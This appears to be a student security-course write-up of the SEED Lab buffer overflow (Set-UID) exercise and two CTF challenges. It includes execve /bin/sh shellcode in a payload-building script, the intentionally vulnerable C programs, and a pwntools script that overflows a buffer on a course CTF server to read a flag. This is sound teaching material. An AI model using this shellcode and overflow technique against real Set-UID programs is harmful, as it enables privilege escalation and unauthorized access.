






# **Week #5**

## **SEEDs Lab**

https://seedsecuritylabs.org/Labs_20.04/Software/Buffer_Overflow_Setuid/

### **Task 1**

- Shut off the address randomization (no stack and heap addresses randomization), so that the addresses of the variables can be the same in each execution of a program
- Changed shell linked to /bin/sh, so that the shell executed allows for Set-UID program attacks
- Compiled and ran the program
- Both 32-bit and 64-bit versions granted us access to the shell


### **Task 2**

- Compiled the program using make, which ran a makefile already configured to compile the program with the correct flags to enable the attack, such as turning off the StackGuard, and running the commands to make the program Set-UID
- Checked the permissions of the resulting programs, confirming the Set-UID bit



### **Task 3**

- **Attempting the buffer overflow**

- First ran the debug version of the program to understand the locations of each variable in the Stack. We used a break point in the function where the overflow is possible to analyze the addresses at that point in the program execution

Terminal 1 | Terminal 2
:---------:|:---------:
 | 


- Then, changed the variables in the python script. This script will output to a file the contents to be written on the buffer to overflow
    - Changed the offset to 112, which is the distance between the start of the buffer and the return address, which we want to rewrite
    - Changed the ret value to the address to which we want the program to jump to (ret is the value to be written where offset specifies)
    - Changed the start value to match the start of the shellcode in the buffer with the position the program is going to jump to


<br>

**Python Script**

``` python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 256               # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0xffffcb6c     # Change this number
offset = 112           # Change this number

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)
```


- The buffer is filled with NOPs to cover any inaccuracy
- Ran the python script and then ran the program
- We were able to perform the buffer overflow and execute the shellcode


## **CTF 5**

### **Task 1**

#### **Checksec**

- No address randomization
- Regions in the memory with RWX permissions
- No cannaries in the stack
- Architecture is x86
- Stack has execute permissions (NX -no execute- disabled)


#### **Program analysis**

- No check for overflows
- File opened is saved in an array which is exactly above buffer
- Buffer value is read from input
- Flag is saved in another file called flag.txt

**Program**

``` c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char buffer[20];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%28s", &buffer);

    printf("Echo %s\n", buffer);

    printf("I like what you got!\n");

    FILE *fd = fopen(meme_file,"r");

    while(1){
        if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
            printf("%s", buffer);
        } else {
            break;
        }
    }


    fflush(stdout);

    return 0;
}
```

#### **Attack**

- Cause a buffer overflow on 'buffer' by writing more than 20 bytes (space it has initialized)
- After 20 bytes/chars, write what you want the array containing the name of file to be open to have (write flag.txt)
- This way the file that will be open is flag.txt



### **Task 2**


#### **Checksec**

- Checksec gives the same Information



#### **Program analysis**

- The program implemented a minor defense. The new version has another buffer in between the buffer we overflow and the target one
- The value of this one is checked to see if it was adulterated

**Program**

``` c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char val[4] = "\xef\xbe\xad\xde";
    char buffer[20];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    if(*(long*)val == 0xfefc2122) {
        printf("I like what you got!\n");

        FILE *fd = fopen(meme_file,"r");

        while(1){
            if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    } else {
        printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
    }

    fflush(stdout);

    return 0;
}
```

#### **Attack**
- To bypass this all we need to do is write the correct sequence of characters in this buffer, which we did by editing the python exploit file



**Python Scipt**

``` python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

r.recvuntil(b":")
r.sendline(b"aaaaaaaaaaaaaaaaaaaa\x22\x21\xfc\xfeflag.txt")
r.interactive()
```
